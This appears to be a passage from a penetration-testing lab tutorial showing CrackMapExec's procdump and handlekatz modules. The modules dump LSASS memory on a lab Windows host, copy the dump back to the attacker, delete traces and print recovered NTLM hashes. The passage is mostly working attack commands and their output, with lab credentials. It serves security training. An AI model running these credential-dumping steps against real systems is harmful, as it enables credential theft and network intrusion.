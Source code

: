 ### **Procdump Module**

2. [Procdump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump) use Microsoft Procdump from Sysinternals to create an LSASS process dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M procdump

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
PROCDUMP    10.129.204.133  445    MS01             [*] Copy /tmp/procdump.exe to C:\Windows\Temp\
PROCDUMP    10.129.204.133  445    MS01             [+] Created file procdump.exe on the \\C$\Windows\Temp\
PROCDUMP    10.129.204.133  445    MS01             [*] Getting lsass PID tasklist /v /fo csv | findstr /i "lsass"
PROCDUMP    10.129.204.133  445    MS01             [*] Executing command C:\Windows\Temp\procdump.exe -accepteula -ma 632 C:\Windows\Temp\%COMPUTERNAME%-%PROCESSOR_ARCHITECTURE%-%USERDOMAIN%.dmp
PROCDUMP    10.129.204.133  445    MS01             [+] Process lsass.exe was successfully dumped
PROCDUMP    10.129.204.133  445    MS01             [*] Copy MS01-AMD64-INLANEFREIGHT.dmp to host
PROCDUMP    10.129.204.133  445    MS01             [+] Dumpfile of lsass.exe was transferred to /tmp/MS01-AMD64-INLANEFREIGHT.dmp
PROCDUMP    10.129.204.133  445    MS01             [+] Deleted procdump file on the C$ share
PROCDUMP    10.129.204.133  445    MS01             [+] Deleted lsass.dmp file on the C$ share
PROCDUMP    10.129.204.133  445    MS01             INLANEFREIGHT\david:c39f2beb3d2ec06a62cb887fb391dee0
PROCDUMP    10.129.204.133  445    MS01             INLANEFREIGHT\julio:64f12cddaa88057e06a81b54e73b949b
PROCDUMP    10.129.204.133  445    MS01             INLANEFREIGHT\john:c4b0e1b10c7ce2c4723b4e2407ef81a2
```

### HandleKatz Module

3. [HandleKatz](https://github.com/codewhitesec/HandleKatz) this tool demonstrates the usage of cloned handles to LSASS to create an obfuscated memory dump of the same.

```shell-session
$ crackmapexec smb 10.129.204.133 -u robert -p 'Inlanefreight01!' -M handlekatz

SMB         10.129.204.133  445    MS01             [*] Windows 10.0 Build 17763 x64 (name:MS01) (domain:inlanefreight.htb) (signing:False) (SMBv1:False)
SMB         10.129.204.133  445    MS01             [+] inlanefreight.htb\robert:Inlanefreight01! (Pwn3d!)
HANDLEKA... 10.129.204.133  445    MS01             [*] Copy /tmp/handlekatz.exe to C:\Windows\Temp\
HANDLEKA... 10.129.204.133  445    MS01             [+] Created file handlekatz.exe on the \\C$\Windows\Temp\
HANDLEKA... 10.129.204.133  445    MS01             [*] Getting lsass PID tasklist /v /fo csv | findstr /i "lsass"
HANDLEKA... 10.129.204.133  445    MS01             [*] Executing command C:\Windows\Temp\handlekatz.exe --pid:632 --outfile:C:\Windows\Temp\%COMPUTERNAME%-%PROCESSOR_ARCHITECTURE%-%USERDOMAIN%.log
HANDLEKA... 10.129.204.133  445    MS01             [+] Process lsass.exe was successfully dumped
HANDLEKA... 10.129.204.133  445    MS01             [*] Copy MS01-AMD64-INLANEFREIGHT.log to host
HANDLEKA... 10.129.204.133  445    MS01             [+] Dumpfile of lsass.exe was transferred to /tmp/MS01-AMD64-INLANEFREIGHT.log
HANDLEKA... 10.129.204.133  445    MS01             [+] Deleted handlekatz file on the C$ share
HANDLEKA... 10.129.204.133  445    MS01             [+] Deleted lsass.dmp file on the C$ share
HANDLEKA... 10.129.204.133  445    MS01             [*] Deobfuscating, this might take a while
HANDLEKA... 10.129.204.133  445    MS01             INLANEFREIGHT\david:c39f2beb3d2ec06a62cb887fb391dee0
HANDLEKA... 10.129.204.133  445    MS01             INLANEFREIGHT\julio:64f12cddaa88057e06a81b54e73b949b
```